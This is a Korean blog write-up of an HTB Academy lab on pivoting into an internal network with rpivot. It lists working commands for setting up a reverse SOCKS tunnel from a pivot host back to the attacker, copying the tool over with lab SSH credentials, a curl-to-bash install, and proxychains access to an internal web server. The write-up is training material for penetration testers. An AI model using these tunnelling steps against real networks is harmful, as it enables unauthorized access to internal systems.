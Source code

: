 ```yaml
---
title: "Web Server Pivoting with Rpivot"
date: 2025-09-30
layout: single
author_profile: true
toc: true
toc_label: "Rpivot Pivoting"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, socks, reverse]
header:
  teaser: /assets/network-screenshots/rpivot/rpivot-network.png
  teaser_home_page: true
---
```


**Rpivot**은 Python으로 작성된 **역방향(Reverse) SOCKS 프록시 도구**로, 내부망 호스트가 외부 서버로 연결을 맺고, 외부 서버 측에서 **SOCKS 프록시 포트**를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다.

---

# 시나리오

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/rpivot-network.png)

Rpivot을 이용해 공격자가 외부에서 내부 웹 서버로 접근하는 구조이다.

내부망(`172.16.5.0/23`)에 존재하는 **웹 서버(`172.16.5.135`)**가 있고,  
공격자는 외부 네트워크(HTB Lab)에서 이 웹 서버를 직접 스캔하거나 브라우징을 할수있다.

---

# 설치

먼저 `rpivot` 저장소를 클론한다.

```bash
$ git clone https://github.com/klsecservices/rpivot.git 

Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37 (from 1)
Receiving objects: 100% (37/37), 51.20 KiB | 3.66 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

`rpivot`은 **Python 2.7 환경에서 동작**하므로 우선 Python 2.7을 설치해야 한다.

```bash
$ sudo apt-get install python2.7
```

에러가 발생할 경우, 이때는 `pyenv`를 사용하여 별도로 2.7 버전을 설치할 수 있다.

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

--- 

# 실습

## server.py 활성화

공격자 로컬 머신에서 `rpivot` 디렉토리로 이동 후 **SOCKS 프록시 서버(server.py)**를 실행한다.

```bash
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **--proxy-port 9050** : 로컬에서 프록시 트래픽을 받을 포트 (SOCKS5)
- **--server-port 9999** : 클라이언트(피벗 호스트)가 접속할 포트
- **--server-ip 0.0.0.0** : 모든 인터페이스에서 연결 허용

이후, `scp` 명령어를 이용하여 문제에서 제공한 SSH 서버(`ubuntu:HTB_@cademy_stdnt!`) 로 전송을 하였다.

```bash
$ scp -r rpivot ubuntu@10.129.179.177:/home/ubuntu
```

전송 완료 후, 제공된 계정으로 피벗 호스트에 SSH 접속하였다.

```bash
$ ssh ubuntu@10.129.179.177
```

## client.py 활성화

`scp`로 전송한 **rpivot 디렉토리**로 이동한 뒤, `client.py` 스크립트를 실행한다.

```bash
$ python2.7 client.py --server-ip 10.10.15.86 --server-port 9999
```

로컬 호스트에서 **SOCKS 프록시 서버(server.py)** 를 실행해 두었던 터미널을 확인하면, 피벗 호스트가 성공적으로 접속한 로그가 출력된다.

```bash
New connection from host 10.129.179.177, source port 36508
```

이후, 내부망 웹 서버 `172.16.5.135`의 80 번 포트를 `proxychains`를 적용하여 확인하였다.

```bash
$ proxychains nc -vz 172.16.5.135 80

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.135:80  ...  OK
172.16.5.135 [172.16.5.135] 80 (http) open : Operation now in progress
```

출력 결과에서 `80 (http) open` 메시지를 통해 해당 포트가 열려 있음을 확인할 수 있다.

## proxychains 웹 사이트 연결 && Flag 획득

로컬 호스트에서 `proxychains`를 적용하여 내부망 웹 사이트에 접속하였다.

```bash
$ proxychains firefox-esr 172.16.5.135:80
```

정상적으로 내부망 웹 페이지 접속에 성공했고, 웹 페이지에 적혀 있는 플래그를 확인하여 획득하였다.

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/flag.png)

이로써 **Rpivot** 사용법에 대한 실습을 마무리하였다.